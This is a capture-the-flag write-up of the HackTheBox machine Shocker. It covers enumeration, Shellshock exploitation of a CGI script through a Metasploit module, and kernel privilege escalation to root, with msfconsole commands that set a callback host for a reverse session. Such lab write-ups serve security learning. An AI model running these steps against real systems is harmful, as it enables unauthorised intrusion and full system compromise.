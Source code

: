 # HackTheBox Shocker

[Sources](https://github.com/BurntxNoodle/RedTeam/tree/master/HackTheBox%20Writeups/HTB%20-%20Shocker#Sources)

### Enumeration 

Starting of with a standard enumeration scan: ```nmap -sC -sV -oA shocker 10.10.10.56```. Bellow is the output:

![image](https://user-images.githubusercontent.com/41026969/72769401-8d662100-3bc8-11ea-91a9-1633f24b6da5.png)

Port 80 which is used for HTTP is open to us. Checking out what the main page is to see if there's any clues:

![image](https://user-images.githubusercontent.com/41026969/72771202-23507a80-3bce-11ea-8efd-7463d2184f81.png)

We see that the home page is just an image. Next, I decide to enumerate to see if there's any interesting directories. 

The first tools I use is ```gobuster``` which is a CLI tool to bruteforce the websites files/directories. Here are the results:

![image](https://user-images.githubusercontent.com/41026969/72770980-7bd34800-3bcd-11ea-95a8-30e3ce733307.png)

Since gobuster didn't pick anything up, I decide to use dirbuster, which is a similar tool excepted it has a graphical interace to see if it picks up anything. Here are the settings that I used:

![image](https://user-images.githubusercontent.com/41026969/72772490-0b7af580-3bd2-11ea-8b11-6b01c06a3bad.png)

Here's what dirbuster finds:

![image](https://user-images.githubusercontent.com/41026969/72773203-5f86d980-3bd4-11ea-83ac-a88d269447a5.png)

There are a coupe interesting directories that dirbuster finds:

- ```/cgi-bin/```
- ```/server-status/```

It looks like dirbuster didn't find any files in each of those directories though. Doing research on the ```[cgi-bin``` directory and reading into [the CGI wiki page](https://en.wikipedia.org/wiki/Common_Gateway_Interface#Using_CGI_scripts) I learned a bit how it works. Basically everytime there's an HTTP call to a script file in the ```address.com/cgi-bin``` directory, instead of sending the file from the local server, the server runs that file locally and then returns the output to the web page. Reading into the security part of the wiki page ```In common with a number of other scripts at the time, this script made use of a function: escape_shell_cmd(). The function was supposed to sanitize its argument, which came from user input and then pass the input to the Unix shell, to be run in the security context of the web server. The script did not correctly sanitize all input and allowed new lines to be passed to the shell, which effectively allowed multiple commands to be run. The results of these commands were then displayed on the web server. If the security context of the web server allowed it, malicious commands could be executed by attackers.```

Doing further research I come across [the Shellshock wiki page](https://en.wikipedia.org/wiki/Shellshock_(software_bug)). This is because one of the attack vectors for Shellshock is CGI. According to the wiki page ```When a web server uses the Common Gateway Interface (CGI) to handle a document request, it copies certain information from the request into the environment variable list and then delegates the request to a handler program. If the handler is a Bash script, or if it executes one for example using the system call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted document request.``` 

With this information I decide to do a new dirbuster scan in that directory:

![image](https://user-images.githubusercontent.com/41026969/72947942-b5cd5700-3d51-11ea-8eef-4259175bf02a.png)

In the picture above, I start the directory/file scanning in the URL: ```http://10.10.10.56/cgi-bin```. And given what is read in the wiki pages, I add some file extensions: python, perl, and bash.

Here are the results of the scan:

![image](https://user-images.githubusercontent.com/41026969/72948083-1f4d6580-3d52-11ea-920b-3a6c7dff329c.png)

This time, we see there's a ```user.sh``` inside the ```cgi-bin``` directory! 

Doing some research I come across [this Rapid7 page](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec) with a metasploit module. 

Here's setting the correct options:

![image](https://user-images.githubusercontent.com/41026969/72995812-8eb16c80-3dc7-11ea-8a03-7d01ef98bd4a.png)

Running the module, we get a meterpreter session! Doing ```getuid``` and ```sysinfo``` outputs the following:

![image](https://user-images.githubusercontent.com/41026969/72996111-1a2afd80-3dc8-11ea-9c72-0b3b55752829.png)

Doing the meterpreter command ```shell``` gives us a local shell to work with. Doing a ```whoami``` check shows we are user ```shelly```. Looking around the computer, eventually I land in ```/home/shelly``` and doing an ```ls -la``` check there reveals the ```user.txt``` flag!

##### Privesc
To get a list of potential exploits that can work against this box, I use metasploit's suggester module: 

```
msf5 exploit(multi/http/apache_mod_cgi_bash_env_exec) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
```

Running the module we get a few results:

![image](https://user-images.githubusercontent.com/41026969/72999796-e4891300-3dcd-11ea-9910-8f8d35893c59.png)

I try the first module that the box ```appears to be vulnerable``` by: ```linux/local/bpf_sign_extension_priv_esc```.

Setting the correct options:

```
msf5 post(multi/recon/local_exploit_suggester) > use exploit/linux/local/bpf_sign_extension_priv_esc
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > show options

Module options (exploit/linux/local/bpf_sign_extension_priv_esc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   COMPILE  Auto             yes       Compile on target (Accepted: Auto, True, False)
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set SESSION 1
SESSION => 1
```

At first, when I run the exploit, I get a ```[*] Exploit completed, but no session was created.```. Looking into the settings I try something different by setting the LHOST (local host) to my HackTheBox address:

```
msf5 exploit(linux/local/bpf_sign_extension_priv_esc) > set LHOST 10.10.14.48
LHOST => 10.10.14.48
```

Then rerunning the exploit, this time we get a second meterpreter session!

Doing a ```getuid``` in meterpreter or ```whoami``` in the local shell, it shows we have root access:

![image](https://user-images.githubusercontent.com/41026969/73001458-801b8300-3dd0-11ea-8532-369ac5ec5dff.png)

Looking around the box, I come across the root flag in ```/root/root.txt```

### Flags
- user: ```/home/shelly/user.txt```

- root: ```/root/root.txt```

### Sources

- [CGI wiki page](https://en.wikipedia.org/wiki/Common_Gateway_Interface#Using_CGI_scripts)
- [Shellshock wiki page](https://en.wikipedia.org/wiki/Shellshock_(software_bug))
- [mod-CGI bash environment Rapid7 page](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec)
- [Shocker video writeup by IppSec](https://www.youtube.com/watch?v=IBlTdguhgfY&)
